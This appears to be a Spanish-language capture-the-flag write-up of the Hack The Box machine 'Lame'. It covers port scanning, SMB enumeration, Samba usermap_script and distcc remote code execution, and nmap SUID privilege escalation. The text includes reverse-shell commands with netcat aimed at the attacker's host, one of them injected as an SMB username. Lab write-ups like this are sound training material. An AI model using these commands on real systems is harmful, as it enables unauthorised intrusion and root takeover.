

Enumeración
Escaneo de puertos:
nmap -p- --open --min-rate 5000 -vvv -sS -n -Pn 10.10.10.3
Host is up, received user-set (0.27s latency).
PORT STATE SERVICE REASON
21/tcp open ftp syn-ack ttl 63
22/tcp open ssh syn-ack ttl 63
139/tcp open netbios-ssn syn-ack ttl 63
445/tcp open microsoft-ds syn-ack ttl 63
3632/tcp open distccd syn-ack ttl 63
Detectamos versión y servicio de los puertos abiertos:
nmap -sCV -p21,22,139,445,3632 10.10.10.3
Host is up (0.26s latency).
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 2.3.4
| ftp-syst:
| STAT:
| FTP server status:
| Connected to 10.10.14.102
| Logged in as ftp
| TYPE: ASCII
| No session bandwidth limit
| Session timeout in seconds is 300
| Control connection is plain text
| Data connections will be plain text
| vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp open ssh OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
| 1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_ 2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open distccd distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
Host script results:
| smb-os-discovery:
| OS: Unix (Samba 3.0.20-Debian)
| Computer name: lame
| NetBIOS computer name:
| Domain name: hackthebox.gr
| FQDN: lame.hackthebox.gr
|_ System time: 2024-05-31T08:50:42-04:00
|_clock-skew: mean: 2h01m02s, deviation: 2h49m45s, median: 59s
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode:
| account_used: guest
| authentication_level: user
| challenge_response: supported
|_ message_signing: disabled (dangerous, but default)
Servicio FTP
Viendo que el usuario anonymous está habilitado. Nos conectamos pero al listar el contenido vemos que está vacío:
Servicio SMB
Listamos los directorios compartidos que existen con smbmap:
smbmap -H 10.10.10.3
Vemos que tenemos permiso de lectura y escritura sobre tmp, por lo que vamos a listar el contenido utilizando smbclient:
Indagamos un poco en el contenido pero no encontramos nada interesante.
Intrusión
Servicio FTP - Failed
Vamos a centrarnos en las versiones de los servicios. Primero buscamos exploits para vsFTPd 2.3.4 y vemos que es vulnerable a un Backdoor Command Execution:
Intentamos utilizar el módulo de Metasploit pero sin éxito.
Servicio Samba - Metasploit
Pasamos a buscar exploits para samba 3.0.20:
Nos interesa la que nos permite ejecución remota de código. Esto hace referencia al CVE-2007-2447.
Ingresamos a Metasploit y seleccionamos el módulo exploit/multi/samba/usermap_script. Lo configuramos de la siguiente manera:
Al ejecutarlo, ya tendremos una shell como root:
Desde aquí podemos ver ambas flags:

Servicio Samba - Manual
Si examinamos el código del exploit usado anteriormente a través de Metasploit, vemos al final que está estableciendo una conexión con:
username = "/=`nohup " + payload.encoded + "`"
En el caso de la ejecución a través de Metasploit, el payload es el que elegimos al momento de configurar el exploit, pero podríamos reemplazarlo por lo siguiente para obtener una Reverse Shell utilizando netcat:
"/=`nohup nc -e /bin/bash 10.10.14.19 443`"
Primero nos conectamos utilizando smbclient con una NULL Session, y dentro hacemos uso del comando longon para proporcionar el comando anterior como username. Nos quedamos a la escucha y obtenemos la shell:

En password podemos poner cualquier cosa o solo darle enter. Si vemos el código, vemos que hace uso de una contraseña random.
Servicio distcc - Metasploit
Si buscamos exploit para distcc vemos que también existe un módulo de Metasploit:
Vamos a buscarlo y configurarlo de la siguiente manera:
Al ejecutarlo, obtenemos una shell pero como el usuario daemon.

Servicio distcc - Manual
Navegando en internet, encontramos el siguiente exploit
Vemos que la forma de uso es la siguiente:
usage: distccd_rce_CVE-2004-2687.py [-h] -t HOST [-p PORT] [-c COMMAND]
Lo ejecutamos por ejemplo pasándole el comando whoami:
Tenemos ejecución remota de código. Vamos a obtener una Reserve Shell ejecutándolo de la siguiente manera:
python distccd_exploit.py -t 10.10.10.3 -p 3632 -c "nc -e /bin/sh 10.10.14.19 4646"
Nos quedamos a la escucha por debajo, y obtenemos la shell:
Escalación de privilegios
Para el caso en el que tenemos que escalar privilegios, vamos a buscar por binarios que tengan permisos SUID:
find \-perm -4000 2>/dev/null
Output:
Nos llama la atención el binario de nmap. Buscando en GTFOBins vemos que podemos hacer uso del modo --interactive para convertirnos en root:
nmap --interactive
nmap> !sh
Haciendo esto, ahora si somos root.